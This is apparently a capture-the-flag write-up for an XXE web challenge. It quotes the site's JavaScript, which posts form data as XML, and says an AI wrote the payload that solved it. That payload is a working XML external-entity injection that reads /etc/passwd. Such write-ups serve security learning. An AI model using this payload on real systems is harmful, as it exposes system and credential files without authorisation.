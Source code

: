 ***Flag:***
<br>
~
<br>
***Approaching the challenge:***: <br>
The site we enter <br>
![{37163FCF-1B6B-457B-8B36-3848D3785DB4}](https://github.com/user-attachments/assets/616a10e3-689e-4ac6-9b7e-03d157cab049)
<br>
XXE was the hint which stands for XML External entity. To solidfy this hint, the source code had 2 more js files which had xml data on it. <br>
DetailsCheckPayload.js
```
window.contentType = 'application/xml';

function payload(data) {
    var xml = '<?xml version="1.0" encoding="UTF-8"?>';
    xml += '<data>';

    for(var pair of data.entries()) {
        var key = pair[0];
        var value = pair[1];

        xml += '<' + key + '>' + value + '</' + key + '>';
    }

    xml += '</data>';
    return xml;
}
```
and 
<br> detailscheck.js
```
document.querySelectorAll('.detailForm').forEach(item => {
    item.addEventListener("submit", function(e) {
        checkDetails(this.getAttribute("method"), this.getAttribute("action"), new FormData(this));
        e.preventDefault();
    });
});
function checkDetails(method, path, data) {
    const retry = (tries) => tries == 0
        ? null
        : fetch(
            path,
            {
                method,
                headers: { 'Content-Type': window.contentType },
                body: payload(data)
            }
          )
            .then(res => res.status == 200
                ? res.text().then(t => t)
                : "Could not find the details. Better luck next time :("
            )
            .then(res => document.getElementById("detailsResult").innerHTML = res)
            .catch(e => retry(tries - 1));

    retry(3);
}
```
Hence we conclude that it's XXE. <br>
The source I used basically sent request of the flag with our payload. AI explained how by c reating a custom XXE payload to read a file involves exploiting a vulnerable XML p by injecting an external entity that points to the desired file. Since we need to read the /etc/passwd file it strongly suggested to use this. So I asked AI to write a custom payload(below) on the request and it resulted in the flag.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>
  <ID>&file;</ID>
</data>
```

After forwarding I finally found the flag:
<br>
![{36C50246-BA17-4DE1-AB71-BCDB6BB0949B}](https://github.com/user-attachments/assets/681c2dc6-753e-4928-8cde-f9ad1f111f6f)

